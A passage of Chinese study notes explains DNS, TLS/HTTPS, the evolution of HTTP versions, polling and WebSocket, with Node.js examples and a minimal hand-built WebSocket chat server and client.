// resolve4：绕过 hosts 和系统缓存，直接向 DNS 服务器发 UDP 查询，只认 A 记录
console.log('resolve4 ->', await dns.resolve4(domain));

// CNAME：域名的“别名”记录，说明 www.baidu.com 本身并不直接存 IP
console.log('CNAME    ->', await dns.resolveCname(domain));

// 当前机器使用的本地域名服务器（图二里那个 DNS 节点）
console.log('本地域名服务器 ->', dns.getServers());
```

输出：

```
lookup   -> [ { address: '198.18.1.166', family: 4 } ]
resolve4 -> [ '198.18.1.166' ]
CNAME    -> [ 'www.a.shifen.com' ]      ← www.baidu.com 本身不存 IP，是个别名
本地域名服务器 -> [ '198.18.0.2', '192.168.1.1' ]
```

- `address`：IP 地址
- `family`：地址族，`4` 表示 IPv4，`6` 表示 IPv6


- `www.baidu.com` 是别名（alias）
- `www.a.shifen.com` 是规范名（canonical name）

`www.baidu.com` 本身不直接对应一个 IP 地址，而是通过 DNS 的 CNAME 记录"指向"了另一个域名 `www.a.shifen.com`，真正的 IP 地址是挂在 `www.a.shifen.com` 上的


## SSL / TLS / HTTPS

SSL = 老名字，1.0/2.0/3.0 全部已被禁用，今天没有任何地方真的在跑 SSL

TLS = SSL 的继任者，现在实际用的是 TLS 1.2 / 1.3

HTTPS = HTTP + TLS，不是新协议，只是把 HTTP 报文塞进 TLS 加密通道

```mermaid
flowchart TB
    subgraph HTTP["HTTP"]
        H1[HTTP 应用层] --> H2[TCP]
    end
    subgraph HTTPS["HTTPS"]
        S1[HTTP 应用层] --> S2["TLS<br/>（加密 / 认证 / 完整性）"] --> S3[TCP]
    end

```


TLS 是夹在应用层和传输层之间的一层。上面的 HTTP 完全不知道自己被加密了，它照样发 GET / HTTP/1.1。


https加密原理在node笔记：https加密原理中


### Node.js语法

启一个 HTTPS 服务端只是把 `http` 换成 `https` 并塞进证书：

```js
import https from 'node:https';
https.createServer({ key, cert }, (req, res) => res.end('ok')).listen(443);
```


TLS

```js
import tls from 'node:tls';

const socket = tls.connect({
  host: 'www.baidu.com',
  port: 443,
  servername: 'www.baidu.com',  // SNI：一台服务器托管多个域名时，靠它告知要哪张证书
}, () => {
  socket.authorized;           // 证书是否通过校验
  socket.getProtocol();        // 'TLSv1.3'
  socket.getCipher().name;     // 加密套件
  socket.getPeerCertificate(true);  // true = 拿完整证书链
});
```

`node:tls` 是 Node.js 内置模块，用于在 TCP 层之上建立加密的 TLS 连接（HTTPS 底层用的就是它）


发起连接：

`tls.connect(options, callback)`：

- 第一个参数是配置对象，第二个参数是一个回调函数，会在 TLS 握手成功、安全连接建立后被调用

`options`里的字段：

- `host`：要连接的目标服务器域名/IP。
- `port`：目标端口，443 是 HTTPS/TLS 的标准端口。
- `servername`：这是 SNI（Server Name Indication） 字段。因为一台物理服务器（一个 IP）上可能用 Nginx 等托管了很多个不同域名的网站，每个域名可能对应不同的证书。客户端在 TLS 握手最开始（ClientHello 阶段，此时还没加密）就要通过 `servername` 告诉服务器"我要访问的是哪个域名"，服务器才能返回匹配这个域名的证书。如果不设置，某些服务器会返回默认证书，导致证书域名不匹配、校验失败。


握手成功后，回调函数被触发，此时 `socket` 已经是一条建立好的加密连接


## HTTP 版本演进


### HTTP/1.0 —— 一次请求一条连接

```mermaid
sequenceDiagram
    participant C as 客户端
    participant S as 服务器
    rect rgb(0,0,0)
    C->>S: TCP 三次握手
    end
    C->>S: GET /a.js
    S->>C: 响应
    rect rgb(0,0,0)
    C->>S: TCP 四次挥手
    end
    rect rgb(0,0,0)
    C->>S: TCP 三次握手（又来一遍）
    end
    C->>S: GET /b.css
    S->>C: 响应
    rect rgb(0,0,0)
    C->>S: TCP 四次挥手
    end
```


三笔浪费：

1. 内存：反复创建销毁连接对象
2. 时间：每次多付 1 个 RTT 的握手成本（HTTPS 更贵，还要加 TLS 握手）
3. 带宽：这条最隐蔽也最要命——TCP 慢启动

> TCP 慢启动：TCP 为了不冲垮网络，新连接刚建立时发送窗口很小，只能试探性地发少量数据，然后逐步倍增到带宽上限。
> 一条短连接往往还没跑到峰值就被销毁了，等于永远在用最慢的速度传输。


### HTTP/1.1 改进一：长连接

```mermaid
sequenceDiagram
    participant C as 客户端
    participant S as 服务器
    rect rgb(0,0,0)
    C->>S: TCP 三次握手（只握一次）
    end
    C->>S: GET /a.js
    S->>C: 响应
    C->>S: GET /b.css
    S->>C: 响应
    C->>S: GET /c.png
    S->>C: 响应
    rect rgb(0,0,0)
    C->>S: TCP 四次挥手
    end
```

HTTP/1.1 默认就是长连接，不需要写 Connection: keep-alive（写了只是为了兼容 1.0）。要关闭才需要显式写 Connection: close。

连接什么时候关：

1. 任意一方发 Connection: close
2. 服务器设定的空闲超时到了（Nginx 默认 keepalive_timeout 75s）
3. 进程/网络异常


20 次串行请求实验结果：

```
短连接 Connection: close        耗时 38ms   TCP 连接数 20
长连接 Connection: keep-alive   耗时 6ms    TCP 连接数 1
```


对应的 Node 语法

```js
import http from 'node:http';

const agent = new http.Agent({
  keepAlive: true,      // 复用 TCP 连接
  maxSockets: 6,        // 同一 host 最多几条连接（浏览器默认就是 6）
  maxFreeSockets: 5,    // 空闲池里最多留几条
});

http.get({ port: 3000, path: '/', agent }, res => { /* ... */ });
```


### HTTP/1.1 改进二：管道化 + 队头阻塞

管道化（Pipelining）：不等上一个响应回来，就把下一个请求发出去

想法很好，但撞上了一个协议层面的硬伤：

> HTTP/1.1 的响应报文里没有任何字段标识"我在回复哪个请求"。
>
> 客户端只能靠到达顺序来配对。所以服务器必须严格按请求顺序回复


请求 2、3 明明早就处理完了，却因为请求 1 慢，必须干等着。这段时间带宽是闲置的——这就是队头阻塞（Head-of-Line Blocking）。

管道化因此在实践中失败了，所有现代浏览器默认关闭管道化。

浏览器的实际对策：开多条 TCP 连接并行，但对同一域名最多 6 条（防止打垮服务器）。

由此产生了 HTTP/1.1 时代的两大优化套路：

- 减少请求数：雪碧图、内联小图 base64、打包合并 JS/CSS
- 域名分片（Domain Sharding）：把静态资源放到 img1.x.com、img2.x.com，绕开 6 连接限制


```mermaid
gantt
    title HTTP/1.1 管道化的队头阻塞
    dateFormat X
    axisFormat %s
    section 服务器处理
    请求1 处理（慢，3s）  :active, a1, 0, 3
    请求2 处理（快，0.2s）:done, a2, 0, 1
    请求3 处理（快，0.2s）:done, a3, 0, 1
    section 实际响应发出
    响应1  :crit, b1, 3, 4
    响应2 被迫等待  :b2, 4, 5
    响应3 被迫等待  :b3, 5, 6
```


### HTTP/2.0 —— 二进制分帧


#### 分帧

核心：换掉传输单元

```mermaid
flowchart TB
    A["Application (HTTP/2 语义)<br/>方法、URL、头部、body —— 和 1.1 一模一样"]
    B["Binary Framing Layer 二进制分帧层<br/>★ HTTP/2 唯一的新东西"]
    C["Session (TLS) 可选"]
    D["Transport (TCP)"]
    E["Network (IP)"]
    A --> B --> C --> D --> E

    style B fill:#ddddd,stroke:#c93,stroke-width:3px
```

HTTP/2 没有改变 HTTP 的语义（还是 GET/POST、还是那些 header、还是那些状态码），它只改变了编码和传输方式：从文本换成二进制帧。

| 名词            | 定义                                          |
| --------------- | --------------------------------------------- |
| 帧 Frame        | 最小传输单元。每个帧头部都带着**所属流的 ID** |
| 流 Stream       | 一次完整的请求-响应，由多个帧组成。有唯一编号 |
| 连接 Connection | 一条 TCP 连接，里面可以跑**任意多条流**       |


```mermaid
flowchart LR
    subgraph TCP["一条 TCP 连接"]
        direction LR
        F1["流1<br/>JS Header"] --> F2["流2<br/>CSS Header"] --> F3["流1<br/>function a(){}"] --> F4["流2<br/>.container{}"] --> F5["流1<br/>function b(){}"] --> F6["流2<br/>.list{}"]
    end
    style F1 fill:#ddddd
    style F3 fill:#ddddd
    style F5 fill:#ddddd
    style F2 fill:#616161
    style F4 fill:#616161
    style F6 fill:#616161
```

帧可以交错发送、乱序到达，接收端按流 ID 重新组装。这就是多路复用（Multiplexing）。

1.1 的响应没有 ID，只能靠顺序。HTTP/2 给每个帧都打上了流 ID，顺序不再有意义了。请求 1 慢，就先发请求 2、3 的帧，互不干扰。


连带的效果：

- 同一域名只需 1 条 TCP 连接（慢启动只付一次，带宽利用率拉满）
- 可以给流设优先级（HTML/CSS 优先于图片）
- 雪碧图、域名分片全部作废——请求数不再是成本，分片反而多开连接、多付握手


HTTP/2 只解决了 HTTP 层（应用层）的队头阻塞，TCP 层的队头阻塞依然存在。

TCP 提供的是"可靠有序的字节流"，它不知道上面跑着多条独立的流。任何一个包丢失，整条 TCP 连接上所有流都要停下来等重传。

```mermaid
flowchart TB
    subgraph 一条TCP连接
        P1["包1 流A ✅"] --- P2["包2 流B ❌ 丢了"] --- P3["包3 流C ✅"] --- P4["包4 流A ✅"]
    end
    P2 -.->|"TCP 保证按序交付<br/>包 3、4 虽已到达<br/>也必须在内核缓冲区干等重传"| X["流 C 和流 A 一起被拖死"]

    style P2 fill:#616161,stroke:#c33,stroke-width:2px
    style X fill:#616161,stroke:#c33
```

讽刺的是：HTTP/2 把连接从 6 条压到 1 条，反而放大了丢包的伤害——1.1 时代丢包只影响 1/6 的请求，HTTP/2 丢包影响全部。在高丢包网络下 HTTP/2 可能比 HTTP/1.1 更慢。

这个矛盾无法在 TCP 上解决，因此有了 HTTP/3


#### 头部压缩 HPACK

HTTP 头部有大量重复。100 个请求，`user-agent`、`cookie`、`accept` 几乎一模一样，每次都完整传一遍，头部体积甚至超过 body。

方案：客户端和服务器各维护两张表。

```mermaid
flowchart LR
    subgraph 客户端
        S1["静态表（协议内置，索引 1~61）<br/>2 → :method GET<br/>3 → :method POST<br/>4 → :path /"]
        D1["动态表（索引 62 起，运行时累积）<br/>62 → auth: token=xxx"]
    end
    subgraph 服务器
        S2["静态表（完全相同）"]
        D2["动态表（同步累积）"]
    end
    客户端 -->|"实际只发：2, 4, 62"| 服务器
    服务器 -->|"查表还原出<br/>:method GET<br/>:path /<br/>auth: token=xxx"| R[完整头部]
```

静态表：协议写死的 61 个常见头部，双方内置，永远一致

动态表：第一次出现的头部用 Huffman 编码压缩后传输，同时双方都存进动态表，之后只发索引号

效果：几十上百字节的头部 → 1 个字节的索引号


#### 服务器推送 Server Push

客户端还没请求，服务器就主动把资源推过去。比如请求 `index.html` 时，服务器知道它一定会要 `main.css`，就一起推过来。

> 这个特性已经死了。
>
> Chrome 106（2022年）默认关闭并移除了 HTTP/2 Server Push，Firefox 也已移除。
>
> 失败原因：服务器不知道客户端缓存里有什么，经常推送客户端已有的资源，白白浪费带宽，实测收益为负。


### HTTP/3.0 —— 换掉 TCP

HTTP/3 = HTTP over QUIC，QUIC 跑在 UDP 上。

```mermaid
flowchart TB
    subgraph H2["HTTP/2"]
        A1[HTTP/2] --> A2[TLS 1.2/1.3] --> A3[TCP] --> A4[IP]
    end
    subgraph H3["HTTP/3"]
        B1[HTTP/3] --> B2["QUIC<br/>（内建 TLS 1.3 + 流控 + 可靠传输）"] --> B3[UDP] --> B4[IP]
    end
    style A3 fill:#616161,stroke:#c33
    style B2 fill:#33691E,stroke:#3a3,stroke-width:2px
```

QUIC 在用户态自己重新实现了一遍可靠传输，但这次流是一等公民——每条流独立重传，一条流丢包不影响其他流。TCP 层队头阻塞被彻底消灭


### Node.js语法

HTTP/1.1 服务端（就这些，够用 90% 场景）：

```js
import http from 'node:http';

const server = http.createServer((req, res) => {
  req.method;        // 'GET'
  req.url;           // '/api/user?id=1'
  req.headers;       // 小写 key 的对象：{ host, connection, 'user-agent', ... }

  res.writeHead(200, { 'Content-Type': 'application/json; charset=utf-8' });
  res.end(JSON.stringify({ ok: true }));
});

server.on('connection', socket => { /* 每建立一条 TCP 连接触发 —— 数连接数就靠它 */ });
server.listen(3000);
```


HTTP/2 服务端 + 客户端

```js
import http2 from 'node:http2';

// 服务端：兼容模式，回调签名和 http 一样
const server = http2.createServer((req, res) => res.end('ok'));
server.listen(3004);

// 客户端：一次 connect，多次 request，全部复用同一条 TCP
const client = http2.connect('http://localhost:3004');
const stream = client.request({ ':method': 'GET', ':path': '/' });  // 冒号开头 = 伪头部
stream.on('data', chunk => {});
stream.on('end', () => client.close());
```


## WebSocket


### 为什么需要 WebSocket

业务场景的共同特点：实时性

下面列出的场景有一个共同点——服务器端有新数据时，要立刻送到浏览器：

- 股票 K 线图（价格跳动）
- 聊天（别人发消息要立即看到）
- 警报、重要通知（不能等用户刷新）
- 余座、抢购库存（数字变化立刻反映）


HTTP 的根本限制：请求必须在响应之前

HTTP 是「一问一答」协议：必须客户端先问，服务器才能答。服务器永远不能主动给浏览器发消息


解决思路围绕"如何让服务器把消息及时送到客户端"这个问题，前辈们想出了3 种方案：

| 方案      | 核心思想                   | 缺点                       |
| :-------- | :------------------------- | :------------------------- |
| 短轮询    | 客户端不断问服务器         | 请求大多没意义，浪费资源   |
| 长轮询    | 服务器挂起请求，有消息再回 | 服务器长时间占着连接没事干 |
| WebSocket | 协议层支持服务器主动推     | 兼容性、老版本浏览器不支持 |


### 短轮询 short polling

客户端每隔一小段时间（比如 1 秒）就向服务器发请求："有新消息吗？"

```mermaid
sequenceDiagram
客户端->>服务器: 有新消息吗？
服务器->>客户端: 没
Note over 客户端,服务器: 一段时间后...
客户端->>服务器: 有新消息吗？
服务器->>客户端: 没
Note over 客户端,服务器: 一段时间后...
客户端->>服务器: 有新消息吗？
服务器->>客户端: 有，user1对你说：你好
```

为什么这样设计

在不改变 HTTP 协议的前提下，用频繁的"问"来模拟"被告知"。实现非常简单：浏览器端 `setInterval` 不断发 ajax 即可。


缺陷（为什么会被淘汰）

- 大量无意义请求：90% 的请求服务器回复"没"，纯浪费- 频繁开关连接：每次都要 TCP 三次握手
- 实时性差：消息可能要等一个轮询周期才被发现


### 长轮询 long polling

客户端发一次请求，服务器挂起不响应，直到真的有新消息才回。客户端收到响应后立刻再发一个请求，循环往复。

```mermaid
sequenceDiagram
客户端->>+服务器: 有新消息吗？
Note right of 服务器: 没有消息不会响应
Note right of 服务器: 一段时间后...
服务器->>-客户端: user1对你说：你好
客户端->>+服务器: 有新消息吗？
Note right of 服务器: 没有消息不会响应
Note right of 服务器: 一段时间后...
服务器->>-客户端: user1对你说：你吃了没
```

为什么这样设计

把"话痨"改成"一问一答有意义"——每次请求一定带回数据，解决短轮询请求泛滥的问题。


仍然存在的缺陷

- 超时问题：客户端 ajax 默认几十秒超时，请求会被迫中断；虽然可以在 `onerror` 里立刻重发，但会让前一个挂起的请求白等
- 服务器资源浪费：服务器挂着一堆请求（虽然没数据传输，但连接占着），只能干等新消息


### WebSocket

WebSocket 是 HTML5 新增的应用层协议，让客户端和服务器之间建立一条持久的 TCP 连接，双方可以任意时刻主动向对方发消息。

1. 基于 TCP 全双工：利用 TCP 本身就能双向通信的能力
2. 协议升级：通过 HTTP 完成"握手"，之后切换到 WebSocket 协议，不再受 HTTP「请求-响应」约束


两个阶段

| 阶段     | 用什么协议            | 做什么                                           |
| :------- | :-------------------- | :----------------------------------------------- |
| 握手阶段 | HTTP                  | 客户端发一个特殊 HTTP 请求，服务器同意，协议升级 |
| 通信阶段 | WebSocket（基于 TCP） | 双方任意时刻互发消息，无请求-响应关系            |

 

缺点（仍然存在）

- 兼容性：老浏览器不支持 WebSocket
- 资源占用：TCP 连接只要不断就占着，对于消息量极少的场景浪费资源  - 建议：用了 WebSocket 的页面干脆放弃 ajax，全用 WebSocket 通信，避免同时维护两套连接


### 握手协议


客户端 → 服务器（HTTP 请求）

请求地址用新协议前缀：

```
ws://mysite.com/path   # 类比 http://
wss://mysite.com/path  # 类比 https://
```

关键请求头（含义就是字面意思）：

```js
Connection: Upgrade              /* 嘿，后续咱们别用HTTP了，升级吧 */
Upgrade: websocket               /* 把后续的协议升级为 websocket */
Sec-WebSocket-Version: 13        /* 协议版本用13 */
Sec-WebSocket-Key: YWJzZmFk...=  /* 暗号：天王盖地虎（防止误连接，不是加密） */
```


服务器 → 客户端（HTTP 响应）

关键响应头

```js
HTTP/1.1 101 Switching Protocols /* 换，马上换协议 */
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: ZzIzMzQ1... /* 暗号：小鸡炖蘑菇（对 Key 的处理结果，验证用） */
```


3握手完成

- 状态码 `101` 表示"换协议"
- 此后不再使用 HTTP，TCP 连接保持打开
- 任何一方都能主动发消息，没有"请求-响应"的先后关系


### 原生 WebSocket API（浏览器端）

```js
const ws = new WebSocket("ws://localhost:9527");  // 创建连接 → 浏览器自动发握手请求

ws.onopen = function () {       // 事件：握手成功、连接建立后触发
  console.log('连接到了服务器');
};

ws.onmessage = function (e) {   // 事件：收到服务器消息时触发
  console.log(e.data);          // e.data 就是服务器发来的内容
};

ws.onclose = function () {      // 事件：连接关闭后触发
  console.log('连接关闭了');
};

ws.send("你好");                 // 主动发消息给服务器ws.readyState; // 0-连接中 1-已连接 2-关闭中 3-已关闭
```


### Socket.io

解决"消息含义不清"的问题

图中展示了服务器一段时间内推过来的数据流——你完全分不清哪条是 K 线、哪条是聊天。


因为原生 WebSocket 只负责"把字节送到"，至于字节代表什么，双方自己约定，但随着业务复杂（一个连接里又要 K 线又要聊天），管理会乱。


#### 解决方案：事件机制

- 像 HTTP 用 URL/方法区分接口一样，用事件名来区分消息类型
- 双方事先约定好：`$kline` 表示 K 线、`$chat` 表示聊天- 一方 `emit('事件名', 数据)`，另一方 `on('事件名', 处理函数)`


重要约束

Socket.io 对消息格式做了特殊封装，所以客户端和服务器必须同时用 Socket.io，不能一边用原生 WebSocket、一边用 Socket.io。


#### 语法

```js
import { io } from "socket.io-client"; 
const socket = io("ws://localhost:9528"); // 建立连接

socket.on("connect", () => { console.log("连上了"); }); // 连接成功

socket.on("$message", (msg) => {  console.log("收到消息:", msg); }); // 监听服务器事件

socket.emit("$message", "你好！"); // 向服务器发事件 

socket.disconnect(); // 主动断开
```


\- 自定义事件名建议加前缀（如 `$`）避免和内置事件（`connect`、`message`）冲突

\- 不支持 WebSocket 的浏览器，Socket.io 自动降级为长轮询


### 完整例子


#### 示例流程图

```mermaid
sequenceDiagram
participant C as 浏览器(client.html)
participant S as Node服务器(server.js)
C->>S: HTTP GET /            # 普通 HTTP 请求页面
S-->>C: 返回 client.html
C->>S: new WebSocket("ws://localhost:9527")   # 建立 WSNote over C,S: 浏览器自动发 HTTP 握手请求<br/>Upgrade: websocket
S-->>C: 101 Switching Protocols # 握手成功
loop 每3 秒
  S->>C: ws.send("服务端时间: ...") # 服务器主动推
end
C->>S: ws.send("hello")                        # 客户端发消息
S->>C: ws.send("收到: hello")                   # 服务器回
```


#### 关键节点伪代码

```js
// 浏览器：建立连接（浏览器内部自动完成 HTTP 握手）
const ws = new WebSocket("ws://localhost:9527");
ws.onopen = () => console.log("握手成功");
ws.onmessage = e => console.log("收到:", e.data);
ws.onclose = () => console.log("断开");
ws.send("hello");      // 主动发消息（任意时刻都可以）

// 服务器（Node.js + ws 库）：
const WebSocket = require("ws");
const wss = new WebSocket.Server({ port: 9527 });
wss.on("connection", ws => {  setInterval(() => ws.send("服务端时间: " + Date.now()), 3000);  // 握手完成 → 拿到 ws 对象
  ws.on("message", msg => ws.send("收到: " + msg));
});
```


#### 服务端代码

```js
// 极简 WebSocket 服务端
// 特点：只用 Node 内置的 http + crypto，不依赖任何第三方包
// 逻辑：HTTP 握手（协议升级）→ 双方任意时刻互发消息

import http from "node:http";
import crypto from "node:crypto";
import { readFileSync } from "node:fs";
import { fileURLToPath } from "node:url";
import { dirname, join } from "node:path";

const __dirname = dirname(fileURLToPath(import.meta.url));
const PORT = 9527;

// RFC6455 规定的握手响应算法：
// 把客户端 Sec-WebSocket-Key 拼接一个固定 GUID，做 SHA-1 再 Base64
const WS_GUID = "258EAFA5-E914-47DA-95CA-C5AB0DC85B11";
function getAcceptKey(clientKey) {
  return crypto
    .createHash("sha1")
    .update(clientKey + WS_GUID)
    .digest("base64");
}

// ====== HTTP 服务器：负责普通页面 + 协议升级握手 ======
const server = http.createServer((req, res) => {
  if (req.url === "/" || req.url === "/index.html") {
    // 普通 HTTP 请求：返回聊天页面
    const html = readFileSync(join(__dirname, "client.html"));
    res.writeHead(200, { "Content-Type": "text/html; charset=utf-8" });
    res.end(html);
  } else {
    res.writeHead(404);
    res.end("Not Found");
  }
});

// ====== 协议升级：处理 WebSocket 握手 ======
server.on("upgrade", (req, socket, head) => {
  if (req.headers.upgrade !== "websocket") {
    socket.end("HTTP/1.1 400 Bad Request\r\n\r\n");
    return;
  }

  const clientKey = req.headers["sec-websocket-key"];
  const acceptKey = getAcceptKey(clientKey);

  // 写回 101 Switching Protocols —— 握手完成
  const responseHeaders = [
    "HTTP/1.1 101 Switching Protocols",
    "Upgrade: websocket",
    "Connection: Upgrade",
    `Sec-WebSocket-Accept: ${acceptKey}`,
    "",
    "",
  ].join("\r\n");

  socket.write(responseHeaders);

  // ---------- 进入 WebSocket 通信阶段 ----------
  // 从这里开始，socket 就是一条持久 TCP 连接，
  // 任何一方都可以随时 send / 收到对方消息

  console.log("[server] 握手完成，连接已建立");

  // 1. 主动推送：每 3 秒给客户端发一条消息（对应课件"测试接口"第 1 条）
  const timer = setInterval(() => {
    const msg = `服务端时间: ${new Date().toLocaleTimeString()}`;
    sendFrame(socket, msg);
    console.log("[server] 推送 →", msg);
  }, 3000);

  // 2. 接收客户端消息（演示最简的"客户端发、服务端回"）
  socket.on("data", (buf) => {
    const text = parseFrame(buf);
    if (text === null) return;
    console.log("[server] 收到 ←", text);
    sendFrame(socket, `收到: ${text}`);
  });

  // 3. 关闭处理
  socket.on("close", () => {
    clearInterval(timer);
    console.log("[server] 连接关闭");
  });
});

// ====== 工具函数：把字符串打包成 WebSocket 数据帧（服务端 → 客户端） ======
// 这里只实现最简的"非加密、未分片、文本帧"，够学 WebSocket 概念用
function sendFrame(socket, text) {
  const payload = Buffer.from(text, "utf8");
  const length = payload.length;

  // 第 1 字节：FIN(1) + RSV(000) + opcode(0001=文本)
  const frame = [0x81];

  // 第 2 字节：MASK(0=服务端发不需要掩码) + 长度
  if (length < 126) {
    frame.push(length);
  } else if (length < 65536) {
    frame.push(126, (length >> 8) & 0xff, length & 0xff);
  } else {
    frame.push(
      127,
      0, 0, 0, 0,
      (length >>> 24) & 0xff,
      (length >>> 16) & 0xff,
      (length >>> 8) & 0xff,
      length & 0xff
    );
  }
  socket.write(Buffer.from([...frame, ...payload]));
}

// ====== 工具函数：解析客户端发来的数据帧 ======
function parseFrame(buf) {
  // 第 1 字节
  const fin = (buf[0] & 0x80) === 0x80;
  const opcode = buf[0] & 0x0f;
  if (!fin || opcode !== 0x1) return null; // 只处理简单的文本帧

  // 第 2 字节
  const masked = (buf[1] & 0x80) === 0x80;
  let length = buf[1] & 0x7f;
  let offset = 2;

  if (length === 126) {
    length = buf.readUInt16BE(2);
    offset = 4;
  } else if (length === 127) {
    length = Number(buf.readBigUInt64BE(2));
    offset = 10;
  }

  // 客户端发来的帧必须掩码：取出 4 字节掩码
  let maskKey;
  if (masked) {
    maskKey = buf.slice(offset, offset + 4);
    offset += 4;
  }

  const payload = buf.slice(offset, offset + length);
  if (masked) {
    for (let i = 0; i < payload.length; i++) {
      payload[i] ^= maskKey[i % 4];
    }
  }
  return payload.toString("utf8");
}

server.listen(PORT, () => {
  console.log(`服务器已启动: http://localhost:${PORT}`);
  console.log(`WebSocket 地址: ws://localhost:${PORT}`);
});
```


#### 前端（html）

```html
<!DOCTYPE html>
<html lang="zh">
<head>
  <meta charset="UTF-8" />
  <title>WebSocket 极简聊天室</title>
  <style>
    body { font-family: -apple-system, "Microsoft YaHei", sans-serif; max-width: 720px; margin: 30px auto; padding: 0 16px; }
    h1 { font-size: 20px; }
    #log { border: 1px solid #ddd; padding: 12px; height: 320px; overflow-y: auto; background: #fafafa; border-radius: 6px; }
    .row { margin: 4px 0; }
    .server { color: #2b8a3e; }
    .me    { color: #1971c2; }
    .sys   { color: #868e96; font-style: italic; }
    #send { display: flex; gap: 8px; margin-top: 12px; }
    #msg  { flex: 1; padding: 6px 10px; border: 1px solid #ccc; border-radius: 4px; }
    button { padding: 6px 16px; border: 0; background: #1971c2; color: #fff; border-radius: 4px; cursor: pointer; }
    .status { font-size: 13px; color: #666; margin-bottom: 8px; }
  </style>
</head>
<body>
  <h1>WebSocket 极简 Demo</h1>
  <div class="status" id="status">未连接</div>
  <div id="log"></div>
  <div id="send">
    <input id="msg" placeholder="输入消息，回车发送" />
    <button id="btn">发送</button>
  </div>

  <script>
    const log = document.getElementById("log");
    const statusEl = document.getElementById("status");
    const msgInput = document.getElementById("msg");
    const btn = document.getElementById("btn");

    function addLine(text, cls) {
      const div = document.createElement("div");
      div.className = "row " + (cls || "");
      div.textContent = text;
      log.appendChild(div);
      log.scrollTop = log.scrollHeight;
    }

    // 1. 创建连接 —— 浏览器自动完成 HTTP 握手
    const ws = new WebSocket("ws://localhost:9527");

    // 2. 握手成功（onopen）
    ws.onopen = () => {
      statusEl.textContent = "已连接 (readyState=1)";
      addLine("✅ 握手成功，连接已建立", "sys");
    };

    // 3. 收到服务器消息（onmessage）
    ws.onmessage = (e) => {
      // 服务器每 3 秒推一条时间；我们发的消息也会收到回复
      if (e.data.startsWith("服务端时间")) {
        addLine("🕒 " + e.data, "server");
      } else {
        addLine("📩 " + e.data, "server");
      }
    };

    // 4. 连接关闭（onclose）
    ws.onclose = () => {
      statusEl.textContent = "已关闭 (readyState=3)";
      addLine("❌ 连接关闭了", "sys");
    };

    function sendMsg() {
      const text = msgInput.value.trim();
      if (!text) return;
      ws.send(text);          // 主动发消息给服务器（任意时刻都可以）
      addLine("我: " + text, "me");
      msgInput.value = "";
    }
    btn.onclick = sendMsg;
    msgInput.onkeydown = (e) => { if (e.key === "Enter") sendMsg(); };
  </script>
</body>
</html>
```

